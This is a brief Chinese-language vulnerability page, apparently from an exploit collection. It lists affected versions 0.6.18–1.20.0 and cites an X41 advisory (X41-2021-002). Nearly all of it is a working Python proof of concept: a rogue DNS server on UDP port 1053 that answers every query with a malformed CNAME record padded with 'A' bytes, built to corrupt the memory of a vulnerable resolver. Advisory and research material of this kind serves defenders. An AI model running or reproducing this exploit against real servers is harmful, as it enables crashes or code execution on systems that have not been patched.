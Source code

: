 <languages />

影响版本
--------

    0.6.18 - 1.20.0

POC
---

    from binascii import hexlify, unhexlify
    from socket import AF_INET, SOCK_DGRAM, socket
    from struct import unpack

    sock = socket(AF_INET, SOCK_DGRAM)
    sock.bind(('0.0.0.0', 1053))

    while True:
        request, addr = sock.recvfrom(4096)
        print(b'<<< '+hexlify(request))
        ident = request[0:2]
        # find request
        nullptr = request.find(0x0,12)
        reqname = request[12:request.find(0x0,12)+1]
        reqtype = request[nullptr+1:nullptr+3]
        reqclass = request[nullptr+3:nullptr+5]
        print('name: %s, type: %s, class: %s' % (reqname, unpack('>H', reqtype), unpack('>H', reqclass)))
        # CNAME response
        response = request[0:2] + \
                   unhexlify('''81800001000100000000''') + \
                   reqname + reqtype + reqclass + \
                   unhexlify('c00c0005000100000e10000b18414141414141414141414141414141414141414141414141c004')
        print(b'>>> '+hexlify(response))
        sock.sendto(bytes(response), addr)

参考
----

<https://github.com/x41sec/advisories/blob/master/X41-2021-002/poc.py>